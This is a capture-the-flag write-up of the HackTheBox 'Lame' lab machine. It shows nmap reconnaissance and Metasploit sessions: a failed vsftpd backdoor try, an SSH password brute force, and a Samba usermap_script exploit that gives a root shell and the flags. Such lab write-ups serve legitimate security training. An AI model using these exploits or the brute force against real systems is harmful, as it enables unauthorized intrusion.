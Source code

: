 ```yaml
---
layout: post
title: HackTheBox - Lame (Retired)
---
```



## Setup
Add the line ```10.10.10.3	lame.htb``` into ```/etc/hosts```.


## Enumeration
```
root@kali:~/HackTheBox/lame# nmap lame.htb -T4 -p- -A -oN nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:26 EDT
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.043s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|broadband router|remote management|printer|general purpose|specialized
Running (JUST GUESSING): Linux 2.4.X|2.6.X (92%), Arris embedded (92%), Control4 embedded (92%), Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Citrix XenServer 5.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:citrix:xenserver:5.5
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Control4 HC-300 home controller (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h56m14s, deviation: 2h49m44s, median: -3d02h56m16s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-03-16T13:32:26-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   44.36 ms 10.10.14.1
2   44.43 ms lame.htb (10.10.10.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.20 seconds
```

Highlights:
 
> 21/tcp   open  ftp         vsftpd 2.3.4
> 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
> 3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

 * Anonymous ftp available
 * ssh is open, so we should try a brute force attack to see if the SIEM catches us or if they have weak controls
 * samba instances
 
### FTP 
I first try FTP with anonymous:anonymous credentials. Anonymous access should not be allowed. Nothing immediately stands out though and nothing is visible in the directory. However, malware could be uploaded or ```put```.

Google tells us that there is a Backdoor Command Execution for vsftpd 2.3.4. But, the vulnerability appears patched.

Let's give it a shot.

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST lame.htb
RHOST => lame.htb
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

No luck with FTP.

 
### SSH
Since OpenSSH is on version 4.7, let's try an [SSH brute-force](https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits).

```
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS lame.htb
RHOSTS => lame.htb
msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/ssh/ssh_login) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

No active sessions.

```

We could try another wordlist, but let's come back to this later.

### Samba
Let's look up `smbd 3.0.20`. Rapid7 has a "username map script" Command Execution [here](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script):
> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS lame.htb
RHOSTS => lame.htb
```
![root](/images/htb/lame/1.png)

```
whoami
root
arp -a
? (10.10.10.2) at 00:50:56:B9:BF:FF [ether] on eth0
route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.10.10.0      *               255.255.255.0   U     0      0        0 eth0
default         10.10.10.2      0.0.0.0         UG    100    0        0 eth0
cat /home/makis/user.txt
69454a937{censored}ea00acd2e84c5
cat /root/root.txt
92caac3be1{censored}721348a4e9df
```
